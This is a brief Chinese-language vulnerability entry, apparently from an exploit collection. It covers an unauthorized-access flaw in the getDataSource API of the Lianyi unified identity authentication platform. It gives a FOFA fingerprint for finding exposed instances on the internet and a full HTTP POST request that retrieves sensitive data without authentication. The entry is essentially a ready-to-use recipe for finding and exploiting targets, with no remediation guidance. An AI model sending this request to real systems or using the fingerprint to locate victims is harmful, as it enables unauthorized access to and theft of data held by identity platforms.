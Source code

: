 # 一、漏洞简介
联奕统一身份认证平台getDataSource 未授权访问,攻击者可通过此漏洞获取敏感信息。

# 二、影响版本
+ 联奕统一身份认证平台

# 三、资产测绘
+ fofa`icon_hash="772658742"`
+ 特征

![](images/1710561624757-1592fdd1-22aa-4dbd-96f6-b062082b640c.png)

# 四、漏洞复现
```bash
POST /api/bd-mdp/serviceManager/outInterface/getDataSource HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Linux; Android 11; motorola edge 20 fusion) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.61 Mobile Safari/537.36
Content-Length: 0
Accept-Charset: utf-8
Accept-Encoding: gzip, deflate
Connection: close
```

![](images/1710561657219-7046971a-ad81-44d5-bd8e-86eb86b3533e.png)

